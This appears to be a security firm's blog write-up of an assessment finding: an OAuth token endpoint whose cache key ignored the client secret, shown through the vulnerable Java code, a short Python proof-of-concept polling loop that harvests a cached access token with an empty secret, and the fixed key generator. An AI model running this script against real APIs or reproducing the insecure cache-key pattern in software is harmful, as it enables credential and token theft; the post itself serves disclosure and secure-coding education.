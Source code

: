 ```yaml
---
layout: single
title:  "AppSec Travels: Part 1"
date:   2023-01-13 16:29:00 -0600
categories: posts
permalink: /AppSec-Travels-1-Function-Overload/
author: Justin Larson
author_profile: true
classes: wide
---
```


# <span style="color:red">Token Caching</span>

This is our first blog of AppSec Travels where we walk you through interesting findings we've discovered in vulnerability assessments. This will be on ongoing series without a regular cadence because frankly some assessments are perfunctory security checks lacking in exciting findings and we sort of doubt anyone wants to read findings write-ups on lack of _HTTPONLY_ flags. As a consequence, AppSec travels will be reserved for findings that are interesting to us and hopefully to you as well. We don't claim that these findings will be in every assessment or that they need to added to your general security checklists, but hopefully they help in thinking differently about your individual approach to security testing. We do _a lot_ of secure code reviews here at Redpoint Security so most of these blog posts will focus on code along with dynamic testing. Some names and data have been changed to protect the innocent (and our customers' NDAs).  

## Token Caching in the Wild

Recently we were tasked with testing an API, a simple, straight-forward assessment with only a handful endpoints. With such a limited scope, there wasn't much to go wrong, and we didn't find anything until the last day.[^1] There was one endpoint that we were testing `/oauth/token` that took a Client ID and Client Secret as the params to generate an access token used for authentication to the API. We were using Burp Suite's Repeater tab when we discovered that if you send a request with a valid Client ID and invalid Client Secret right after a valid request with the correct Client ID and Secret that the application would return a valid access token. 

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-1.png' }})
_Valid Request with correct credentials_

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-2.png' }})
_Request lacking `client_secret` but application still returns valid `access_token`_

This was behavior that I had never seen before, and, if you waited more than 10 seconds to send your invalid credential request, the application would respond with a failed authentication attempt. This was a hybrid assessment so we had access to the code which is always helpful in understanding what is going on under the hood. The code implemented an insecure decorator that only used the Client ID in order to access the token cache. 


```java
@RequestMapping(value = "/oauth/token", method = RequestMethod.POST)
  @ResponseStatus(HttpStatus.OK)
  public Mono<AuthTokenResponse> login(@RequestBody AuthTokenRequest authTokenRequest) {
    return Mono.just(authTokenCache.retrieveAccessToken(authTokenRequest.getClientId(), authTokenRequest.getClientSecret(), audience,
      AuthStrategy.AUTH0));
  }
```
_Request mapping for `/oauth/token` follows to `retrieveAccessToken`_

```java
  @Cacheable(value = TOKEN_CACHE, keyGenerator = "apiTokenKeyGenerator")
  public AuthTokenResponse retrieveAccessToken(String clientId, String clientSecret, String audience, AuthStrategy authStrategy) {
    log.debug("Calling auth0 api for new access token");
    //TODO Handle Errors
    return authClients.get(authStrategy).retrieveAuthToken(audience, clientId, clientSecret).getBody();
  }
}
```
The `retrieveAccessToken` function has a decorator that looks in the token cache for a valid access token for the client, the only problem is–as we see in the code below–the `generate` function only uses a system-generated `audience` plus `params[0]` which is comprised solely of the `client_id` to generate a key for the token. 

```java
public class ApiTokenKeyGenerator implements KeyGenerator {
  private final String audience;

  public ApiTokenKeyGenerator(String audience) {
    this.audience = audience;
  }

  @Override
  public Object generate(Object target, Method method, Object... params) {
    return "token-cache:" + audience + ":" + params[0];
  }
}
```
In order to demonstrate this attack we wrote a simple python script that attempted the `/oauth/token` request over and over again without a valid Client Secret. Then we logged in using Postman and the attack script would retrieve the access token, print it to the screen and stop. 

```python 
import requests
import json
import time

CLIENT_ID="<CLIENT_ID>"

def attack():
    url = "<URL>"
    headers = {"Content-Type": "application/json", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36", "Accept": "*/*", "Accept-Encoding": "gzip, deflate"}
    json={"client_id": CLIENT_ID, "client_secret": ""}
    rsp=requests.post(url, headers=headers, json=json).text
    print(rsp)
    if 'access_token' in rsp:
        return True
    return False


success=False
while not success:
    success=attack()
    time.sleep(.1)
print("[!]Vulnerable to Token Theft")
```                  

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-3.png' }})

To sum up the vulnerability, the application was using a token cache with insecure key generation for accessing the token. I do have to admit that initially when we reported this vulnerability we thought it had to do with an overloaded function, there were 2 functions named `retrieveAccessToken`, one of them took 2 parameters(see below) and the other (up above) took 4. We thought the request was reaching the code below and the token was being returned with `return authTokenResponse.accessToken();` but after some more digging and seeing the code fix, we realized we were wrong about the overloaded function. Hey, we aren't perfect but we were in the right ballpark. 

```java
@Cacheable(value = TOKEN_CACHE, keyGenerator = "tokenKeyGenerator")
  public String retrieveAccessToken(String audience, AuthStrategy authStrategy) {
    log.debug("Calling auth0 api for new access token");
    //TODO Handle Errors
    AuthTokenResponse authTokenResponse = authClients.get(authStrategy).retrieveAuthToken(audience).getBody();
    if (authTokenResponse != null) {
      return authTokenResponse.accessToken();
    } else {
      log.error("Failed to get access token for audience {} and auth strategy {}", audience, authStrategy);
      return null;
    }
  }
```

The fix included using a hash of the `client_secret` as well as using the `client_id`.  

```java
 @Override
  public Object generate(Object target, Method method, Object... params) {
    String clientId = (String) params[0];
    String clientSecret = (String) params[1];
    String hashedSecret;
    try {
      MessageDigest md = MessageDigest.getInstance(hashAlgorithm);
      md.update(clientSecret.getBytes());
      hashedSecret = DatatypeConverter.printHexBinary(md.digest()).toUpperCase();
    } catch (NoSuchAlgorithmException e) {
      log.error("Unable to create cache key for {}", clientId);
      throw new RuntimeException(e);
    }
    return "token-cache:" + audience + ":" + clientId + ":" + hashedSecret;
  }
}
```

It makes sense to talk through the likelihood of a successful attack happening in this instance. An attacker would have had needed to have a valid `client_id`, in this case the `client_id` was a 32 character long string of numbers and lower and uppercase letters so guessing a `client_id` wasn't happening. There also wasn't a self registration for this application and no other endpoint leaked `client_ids` so getting a valid `client_id` would have been highly unlikely or nearly impossible. In any case, we found it an interesting edge case of unexpected application behavior.

Thanks for coming along on our first journey in AppSec Travels. Stay tuned for our next excursion into the unexpected world of Application Security and Code Review.

[^1]:Last-day findings are a thing. See Ken Kantzer's point #3 in this write-up on Secure Code Review [here](https://kenkantzer.com/learnings-from-5-years-of-tech-startup-code-audits/)